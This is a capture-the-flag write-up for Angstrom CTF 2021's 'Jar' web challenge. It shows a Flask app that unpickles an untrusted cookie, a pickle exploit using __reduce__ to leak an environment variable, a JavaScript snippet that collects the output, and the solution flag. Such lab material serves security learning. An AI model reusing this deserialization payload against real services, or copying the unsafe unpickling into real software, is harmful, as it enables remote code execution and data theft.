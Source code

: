 ```yaml
---
name: Jar (2021)
event: Angstrom CTF 2021
category: Web
description: Writeup for Jar (Web) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Jar

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/c147fBCppb8/0.jpg)](https://youtu.be/c147fBCppb8?t=28s "Angstrom 2021: Jar")

## Challenge Description

> My other pickle challenges seem to be giving you all a hard time, so here's a simpler one to get you warmed up.

## Source

```py
import base64
import pickle
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
    return send_file('pickle.jpg')

@app.route('/')
def jar():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    items.append(request.form['item'])
    response = make_response(redirect('/'))
    response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
    return response

app.run(threaded=True, host="0.0.0.0")
```

## Solution

#### exploit.py

```py
import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        return (os.getenv, ('FLAG',))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

#### print_flag.js

```js
var divs = document.getElementsByTagName("div");
var flag = "";

for (var i = 0; i < divs.length; i++) {
    flag += divs[i].innerText;
}

console.log(flag);
```

Flag: `actf{you_got_yourself_out_of_a_pickle}`
